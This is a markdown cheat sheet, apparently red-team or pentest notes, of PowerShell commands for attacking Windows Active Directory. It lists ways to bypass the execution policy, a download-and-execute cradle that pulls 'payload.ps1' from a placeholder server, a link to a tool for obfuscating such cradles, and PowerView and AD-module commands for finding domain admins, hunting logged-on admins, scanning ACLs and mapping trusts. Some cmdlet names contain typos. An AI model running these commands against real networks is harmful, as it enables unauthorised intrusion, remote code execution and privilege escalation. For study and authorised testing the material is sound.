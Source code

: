 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  

**Get all the members of the Domain Admins group**:  
1. Get-NetGroupMember -GroupName "Domain Admins"  
  
**Get group membership for a user**:  
1. Get-NetGroup -UserName \<user name\>  

**Get computers of the domain**:  
1. Get-NetComputer  
2. Get-NetComputer -FullData  

**Fins all machines on the current domain where the current user has a local admin access**:  
1. Find-LocalAdminAccess -Verbose  
  
**Find all admins on all machines of the domain**:  
1. Invoke-EnumerateLocalAdmin -Verbose  
  
**List sessions on the current computer**:  
1. Get-NetSession -ComputerName \<computer name\>  
  
**Find computers where a omain admin is logged on and current user has access**:  
1. Invoke-UserHunt -CheckAccess  


**Get ACLs**:  
1. Get-ObjecAcl -SamAccountName \<user name\> -ResolveGUIDs  
2. Get-ObjecAcl -ADSprefix 'CN=Administrators,CN=Users'  
3. Invoke-ACLScanner -ResolveGUIDs  
  
**Get a list of all domain trusts for the current domain**:  
1. Get-NetDomainTrust  
2. Get-NetDomainTrust -Domain \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
1. Get-NetForest  
2. Get-NetForest -Forest \<forest name\>  
  
**Get all domains in current forest**:  
1. Get-NetForestDomain  
2. Get-NetForestDomain -Forest \<forest name\>  
  
  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter {Name like "\*admin\*"} | select Name  
  
**Get all the members of the Domain Admins group**:  
1. Get-ADGroupMember -Identity "Domain Admins" -Recursive  

**Get group membership for a user**:  
1. Get-ADPrincipalGroupMembership -Identity \<user name\>  
  
**Get computers of the domain**:  
1. Get-ADComputer -Filter * | select Name  
2. Get-ADComputer -Filter \* -Prooerties \*  
  
**Get ACLs**:  
1. (Get-Acl 'AD:\CN=Lab,CN=Users,DC=domain,DC=local').Access  

**Get a list of all domain trusts for the current domain**:  
1. Get-ADTrust  
2. Get-ADTrust -Identiy \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
 1. Get-ADForest  
 2. Get-ADForest -Identiy \<forest name\>  
  
